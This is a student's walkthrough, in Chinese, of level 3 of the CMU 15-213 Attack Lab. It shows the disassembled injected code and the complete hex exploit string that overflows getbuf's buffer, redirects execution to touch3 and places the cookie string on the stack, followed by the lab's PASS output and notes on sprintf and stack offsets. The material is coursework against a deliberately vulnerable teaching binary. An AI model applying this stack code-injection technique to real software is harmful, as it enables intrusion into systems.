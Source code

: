 ```assembly
  1
  2 p3.o:     file format elf64-x86-64
  3
  4
  5 Disassembly of section .text:
  6
  7 0000000000000000 <.text>:
  8    0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
  9    7: 68 fa 18 40 00        push   $0x4018fa
 10    c: c3   
```

这样总的输入字符串为：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```

将其转换为输入字符串后，执行结果：

```bash
crx@ubuntu:03_attack_lab$ ./ctarget -q -i exploit3-raw.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

用时4h，卡住我的主要问题是：

1. `sprintf`函数作用：是将一个参数以某种形式转换为字符串，然后保存在某个字符串指针处。在这个题目中，是将cookie代表的unsigned类型的值`0x59b997fa`格式化为一个以十六进制表示的字符串“59b997fa”，并将结果存储在字符串数组 `s` 中。而字符串`"59b997fa"`的实际是按照每个字符的ascii码来表示的，即为`35 39 62 39 39 37 66 61`。这里花了大量时间去考虑数值类型的cookie到底被转换成什么字符串了，其实这里sprintf的本质就是将数据以16进制形式打印出来，并将打印结果存储起来:

   > [The C library function **int sprintf(char \*str, const char \*format, ...)** sends formatted output to a string pointed to, by **str**.](https://www.tutorialspoint.com/c_standard_library/c_function_sprintf.htm)

   这个问题暴露出来的弱点就是不理解函数到底做了什么，导致花的时间很多

2. 计算字符串保存的位置：因为getbuf申请了`0x24`十进制为40的栈空间，所以从0开始的话，40到47存放的是漏洞代码地址，然后48到55存放的是cookie十六进制表示的字符串。

3. 另一个就是新知识：既然栈会被新的函数参数填入，可能会导致漏洞代码失效，那么我就在test函数上存放一些数据。
